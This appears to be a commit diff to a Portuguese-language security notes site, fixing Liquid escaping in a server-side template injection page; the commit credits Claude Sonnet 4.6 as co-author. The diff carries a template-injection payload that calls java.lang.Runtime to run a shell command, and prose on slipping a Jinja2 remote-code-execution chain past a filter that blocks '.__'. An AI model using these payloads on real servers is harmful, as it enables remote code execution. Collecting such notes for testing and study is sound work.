

Before and after one commit to mithr4nd1r/mithr4nd1r.github.io, a Jekyll site: the page built from web/ssti.md, in a window 1280 px wide and 900 px high, scrolled down 7424 px. Shown: the part 261-561 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
fix remaining Liquid syntax errors in web/ssti.md and nodejs-injection.md
- ssti.md: wrap Freemarker {% set %} block (lines 751-756) with raw tags
- ssti.md: wrap ASCII art code block containing {{ }} empty expression
- ssti.md: escape inline {% set %} in prose text
- ssti.md: escape {{ }} in section heading
- nodejs-injection.md: escape {{ }} in table cell (empty Liquid expression)

Co-Authored-By: Claude Sonnet 4.6 <noreply@anthropic.com>

````diff
--- a/web/ssti.md
+++ b/web/ssti.md
@@ -295,6 +295,7 @@ Por que SSTI é diferente do XSS:
 
 **Benefícios do padrão correto (template fixo + dados separados):**
 
+{% raw %}
 ```
 +---------------------------------------------+
 | Template fixo + variáveis de contexto:      |
@@ -308,6 +309,7 @@ Por que SSTI é diferente do XSS:
 |   (apenas editar o arquivo .html/.twig)     |
 +---------------------------------------------+
 ```
+{% endraw %}
 
 ---
 
@@ -748,12 +750,14 @@ $str.valueOf($chr.toChars($out.read()))
 
 #### RCE via Runtime
 
+{% raw %}
 ```
 {% set cmd = "id" %}
 {% set bytes = (1).TYPE.forName('java.lang.Runtime').methods[6].invoke((1).TYPE.forName('java.lang.Runtime').methods[7].invoke(null),cmd.split(" ")) %}
 {% set output = (1).TYPE.forName('java.io.InputStream').methods[2].invoke(bytes) %}
 {{ output }}
 ```
+{% endraw %}
 
 ---
 
@@ -795,7 +799,7 @@ ${x}
 ```
 {% endraw %}
 
-#### Contornar bloqueio de chaves duplas `{{ }}`
+#### Contornar bloqueio de chaves duplas `{% raw %}{{ }}{% endraw %}`
 
 {% raw %}
 ```python
@@ -845,7 +849,7 @@ ${x}
 
 Cenário: WAF ou filtro da aplicação bloqueia a string `.__` nos inputs de template Jinja2, impedindo notação de ponto para acessar dunder attributes.
 
-**Solução**: o filtro nativo Jinja2 `attr(name)` acessa atributos passando o nome como string — sem usar notação ponto. Combinado com `{% set %}` para armazenar nomes de dunders, permite construir a cadeia completa de RCE sem `.__` em nenhum momento.
+**Solução**: o filtro nativo Jinja2 `attr(name)` acessa atributos passando o nome como string — sem usar notação ponto. Combinado com `{% raw %}{% set %}{% endraw %}` para armazenar nomes de dunders, permite construir a cadeia completa de RCE sem `.__` em nenhum momento.
 
 {% raw %}
 ```python
````
Also changed, not shown: web/nodejs-injection.md (+1 -1 lines).
